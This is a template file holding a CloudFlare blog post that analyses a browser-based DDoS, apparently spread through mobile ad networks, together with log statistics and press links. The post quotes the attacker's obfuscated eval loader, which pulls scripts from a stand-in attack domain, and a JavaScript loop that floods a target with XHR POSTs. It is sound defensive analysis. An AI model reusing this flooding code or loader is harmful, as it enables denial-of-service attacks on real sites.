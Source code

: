 <%inherit file="basecomment.html"/>

<%block filter="filters.markdown">

-------------

I've published an article on the CloudFlare blog:

 * [https://blog.cloudflare.com/mobile-ad-networks-as-ddos-vectors/](https://blog.cloudflare.com/mobile-ad-networks-as-ddos-vectors/)

A bit of comments:

 * [The Register](http://www.theregister.co.uk/2015/09/28/mobile_malvertiser_ddos_javascript_drip_serves_site_with_45_billion_hits/)
 * [Security Week](http://www.securityweek.com/mobile-ad-network-abused-ddos-attack-cloudflare)
 * [Threat Post](https://threatpost.com/javascript-ddos-attack-peaks-at-275000-requests-per-second/114828/)
 * [BBC](http://www.bbc.co.uk/news/technology-34379254)
 * [Dark Matters](http://darkmatters.norsecorp.com/2015/09/28/new-ddos-attack-uses-smartphone-browsers/)
 * [Network World](http://www.networkworld.com/article/2986963/after-pushing-malware-ad-networks-also-used-for-ddos.html)
 * [The Inquirer](http://www.theinquirer.net/inquirer/news/2427872/smartphone-browser-based-ddos-attack-is-your-latest-threat)
 * [PCWorld](http://www.pcworld.com/article/2986966/security/after-pushing-malware-ad-networks-also-used-for-ddos.html)
 * [ZDNet](http://www.zdnet.com/article/new-ddos-attack-uses-smartphone-browsers-to-flood-site-with-4-5bn-requests/)
 * [Tweakers](http://tweakers.net/nieuws/105503/aanvallers-ddosen-website-met-behulp-van-honderdduizenden-mobieltjes.html)
 * [SC Magazine](http://www.scmagazine.com/ddos-attack-used-mobile-devices-to-deliver-45-billion-requests/article/441456/)


-------------

<%
a = """

Analysis of a browser-based DDoS
---

CloudFlare servers are constantly being targeted by DDoS'es. We see everything from attempted DNS reflection attacks to L7 HTTP floods involving large botnets.

<div class="image"><img src="js-attack.png"></div>

<br>

The request
-----------

Recently an unusual flood caught our attention. A site reliability engineer on call noticed a big number of HTTP requests being issued against one of our customers. Here is one of the requests:

```.txt
POST /js/404.js HTTP/1.1
Host: www.target.com
Connection: keep-alive
Content-Length: 426
Origin: http://attacksite.com
User-Agent: Mozilla/5.0 (Linux; U; Android 4.4.4; zh-cn; MI 4LTE Build/KTU84P) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/42.0.0.0 Mobile Safari/537.36 XiaoMi/MiuiBrowser/2.1.1
Content-Type: application/x-www-form-urlencoded
Accept: */*
Referer: http://attacksite.com/html/part/86.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,en-US;q=0.8

id=datadatadasssssssssssssssssssssssssssssssssssssssssssassssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssadatadata
```

We received millions of similar requests, clearly suggesting a flood. Let's take a deeper look at this request.

First, let's note that the headers look legitimate. We often see floods issued by Python or Ruby scripts, with weird "Accept-Language" or "User-Agent" headers. But this one doesn't look like it. This request is a proper request issued by a real browser.

Next, notice the request is a POST and contains an "Origin" header - it was issued by an Ajax (XHR) cross origin call.

Finally, the "Referer" points the website issuing these queries against our servers. We checked: the URL was correct and the "attacksite.com" was reachable.


Browser-based floods
-------------------

<div class="image"><img src="attack.jpg"></div>

Browser-based L7 floods have been rumored as a theoretical threat for a long time. Read [Nick Sullivan's explanation](https://blog.cloudflare.com/an-introduction-to-javascript-based-ddos/) on how they work.

The first mention was around 2010, when on Lavakumar Kuppan proposed using [browser HTML5 features](https://media.blackhat.com/bh-ad-10/Kuppan/Blackhat-AD-2010-Kuppan-Attacking-with-HTML5-wp.pdf) to launch floods. Then [in 2013 Jeremiah Grossman and Matt Johansen](https://media.blackhat.com/us-13/us-13-Grossman-Million-Browser-Botnet.pdf) suggested web advertisements as a distribution vector for the malicious javascript. A paper from this year discusses [a theoretical cost](http://www.christian-rossow.de/publications/cashcannon-woot2015.pdf) of such an attack.


Finally, in April we saw [The Great Cannon](https://citizenlab.org/wp-content/uploads/2009/10/ChinasGreatCannon.pdf) distributing javascript with a novel method - by injecting raw TCP segments into passing by connections.

These developments indicate the biggest difficulty is in effectively distributing the malicious javascript. Since efficient distribution vector is crucial to issuing large floods up until now I haven't seen a sizable browser-based flood.


The attack page
--------

To investigate the source of the flood hitting us we followed the
"Referer". It was an exciting journey.

The web page from the referrer looked like a link farm or an ad aggregator. For this discussion let's call it "the attack site". The page was written with pretty simple html and used a few manually written javascript routines. It loaded a couple of small javascript files, one of them was called `count.js`. It contained a couple of not notable `document.writes`, followed by 50 new lines and this slightly obfuscated line:


```.txt
eval(function(p,a,c,k,e,r){e=String;if('0'.replace(0,e)==0){while(c--)r[e(c)]=k[c];k=[function(e){return r[e]||e}];e=function(){return'[0-8]'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('2.3("<0 4=\\"5://6.anotherattacksite.7/8/1/jquery2.1\\"></0>");2.3("<0 4=\\"5://6.anotherattacksite.7/8/1/jquery1.1\\"></0>");',[],9,'script|js|document|writeln|src|http|www|com|css'.split('|'),0,{}))
```

After pasting it to [Js Beautifier](http://jsbeautifier.org/) the following decoded code emerges:

```.txt
document.writeln("<script src=\"http://www.anotherattacksite.com/css/js/jquery2.js\"></script>");
document.writeln("<script src=\"http://www.anotherattacksite.com/css/js/jquery1.js\"></script>");
```

It turns out the `jquery2.js` file contained a malicious code targeting our customer. The code wasn't too sophisticated either, here's a snippet:

```.txt
var t_postdata='id=datadatadasssssssssssssssssssssssssssssssssssssssssssassssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssadatadata';

var t_url8='http://www.target.com/js/404.js';

function post_send() {
    var xmlHttp=c_xmlHttp();
    xmlHttp.open("POST",t_url8,true);
    xmlHttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    xmlHttp.send(t_postdata);
    r_send();
}

function r_send() {
    setTimeout("post_send()", 50);
}


if(!+[1,]) { //IE下不执行。
    var fghj=1;
} else {
    setTimeout("post_send()", 3000);
}
```

As you see the malicious script isn't too complex and just launches XHR in a loop.

On the other hand the script uses pretty smart method of detecting IE. Previously we were not aware `if(!+[1,])` can be used to detect Internet Explorer 9 and older. For added kicks consider that the javascript statement `!+[1,]` alone behaves consistently across all browsers.



Analyzing the logs
-------------

![](requests.png)

The HTTP requests chart above suggests that the large flood was proceeded by a smaller one 12 days earlier. Maybe the attackers were testing their tools.

During the day of the flood we received 4.5 billion requests to the targeted domain issued by 650 thousand unique IP's. We don't have more detailed data, like hourly distribution, since [we throw away most of the logs](https://blog.cloudflare.com/what-cloudflare-logs/).

Since the flood was so interesting we wrote a couple of scripts and were able to further analyze 17M log lines, about 0.4% of the flood requests.

The flood was coming from a single country. The source IP's were distributed:

```
99.8% China
 0.2% other
```

Our system is able to extract the device type from the user agent. It looks like a 80% of the requests came from mobile devices:

```
72% mobile
23% desktop
 5% tablet
```

The referrer headers didn't have a clear pattern. The referrer domains were distributed fairly uniformly. Whoever attacked us had a control over a large number of domains. We definitely weren't hit by a single attack page.

```
27.0% http://www.attacksite1.com
10.1% http://www.attacksite2.com
 8.2% http://www.attacksite3.com
 3.7% http://www.attacksite4.com
 1.6% http://www.attacksite5.com
 1.2% http://www.attacksite6.com
 ...
```

The user agents are notoriously hard to quickly analyze, but we found a couple of interesting ones:

```.txt
Thunder.Mozilla/5.0 (Linux; U; Android 4.1.1; zh-cn; MI 2S Build/JRO03L) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Mobile Safari/534.30
Mozilla/5.0 (iPhone; CPU iPhone OS 8_4 like Mac OS X) AppleWebKit/600.1.4 (KHTML, like Gecko) Mobile/12H143 iThunder
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.153 Safari/537.36 SE 2.X MetaSr 1.0
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/31.0.1650.63 Safari/537.36 F1Browser Yunhai Browser
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.69 Safari/537.36 QQBrowser/9.0.3100.400
Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.99 Safari/537.36 2345Explorer/6.1.0.8631
Mozilla/5.0 (Linux; U; Android 4.4.4; zh-CN; MI 3 Build/KTU84P) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 UCBrowser/10.6.2.626 U3/0.8.0 Mobile Safari/534.3
```

Strings like "iThunder" might indicate the request came from a mobile app. Others like "MetaSr", "F1Browser", "QQBrowser", "2345Explorer" and "UCBrowser" point towards browsers or browser apps popular in China.

The distribution vector
--------------

This is where the hard evidence ends and the speculation begins. There is no way to know for sure why so many mobile devices visited the attack page. The most plausible distribution vector seems to be an ad network. It seems likely that a compromised ad network was forwarding users to a page containing the malicious javascript. This ads were likely showed in iframes in mobile apps, or mobile browsers to people casually browsing the internet.

During the flood we were able to look at the packet traces and we are confident the attack didn't involve a TCP packet injection.


To recap, we think this happened:

 * A Chinese user was casually browsing the internet or opened an app on the phone.
 * The user was served an iframe with an advertisement.
 * The advertisement request went to an ad network.
 * The ad network forwarded the request to the third-party website
   that won the ad auction.
 * Either the third-party website was the "attack page", or it
   forwarded the user to an attack page.
 * The user is served an attack page containing a malicious javascript
   which launches a flood against CloudFlare servers.



Attacks like this form a new trend and present a great danger to the internet. We are continuing our work to understand these attacks better.


"""
%>

</%block>
